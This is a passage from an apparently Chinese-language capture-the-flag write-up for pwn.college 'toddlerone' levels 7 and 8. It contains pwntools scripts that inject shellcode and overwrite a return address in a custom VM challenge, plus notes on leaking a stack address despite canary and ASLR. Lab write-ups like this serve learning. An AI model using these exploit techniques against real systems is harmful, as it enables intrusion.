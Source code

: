 ```python
        b'\x08\x40\xFF' # IMM b = \xFF
        b'\x01\x40\x21' # IMM c = \x21
        b'\x04\x02\x04' # read  返回值是a
        b'\x20\x40\xFF' # IMM i = \xFF
    ]

    p.recvuntil("Good luck!")
    payload = data_list[0] + shellcode
    p.send(payload)
    p.recvuntil("[s] ... read_memory\n")
    payload = b'\xFF'+ b'\xFF' * 0x18 + p64(stack_address + len(data_list[0]))
    p.send(payload)
    response = p.recvall().decode('utf-8')
    if "pwn" in response:
        print(response)
        exit()
```

## level 8

第8关跟第7关一样，但开启了canary和ASLR。所以不能采用爆破的思路解决了。观察栈空间发现 `rsp+0x0000`处的内容刚好和main函数的栈基址相差 `0xF8`，但我们只能显示处 `&buf+0x300`之后的字节内容，无法显示之前的内容。所以只能再想办法看看返回地址后是否有其他的地址可以泄露。

果然，在 `main函数返回地址处 + 8个偏移量`发现了和 `rsp+0x0000`处一样的内容。`rsp+0x0000`处的参数意义是 `main函数argv参数的地址`。

```bash
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffd2a17a3c0 (rsp+0x0000) | d8 a8 17 2a fd 7f 00 00 | 0x00007ffd2a17a8d8 |
| 0x00007ffd2a17a3c8 (rsp+0x0008) | b8 59 5b 5b 01 00 00 00 | 0x000000015b5b59b8 |
| 0x00007ffd2a17a3d0 (rsp+0x0010) | 31 0a 00 00 00 00 00 00 | 0x0000000000000a31 |  <---- 这里是buf的起始地址
| 0x00007ffd2a17a3d8 (rsp+0x0018) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
```

```python

from pwn import *

elf = ELF("/challenge/toddlerone_level8.1")

"""
op arg1 arg2-------op vaules register

SYS \x08            exit --0x01   read 0x20 write 0x04
IMM \x04     

a 0x40
b 0x01
c 0x08
i 0x10

"""
shellcode_file = open("/home/hacker/exploit/level7/shellcode.bin","rb")
shellcode = shellcode_file.read()

p = process("/challenge/toddlerone_level8.1")
data_list = [
    b'\x04\x01\x40' # IMM a= \x01
    b'\x04\xFF\x01' # IMM b = \xFF
    b'\x04\x31\x08' # IMM c = \x31
    b'\x08\x40\x04' # write  返回值是a

    b'\x04\x00\x40' # IMM a= \x00
```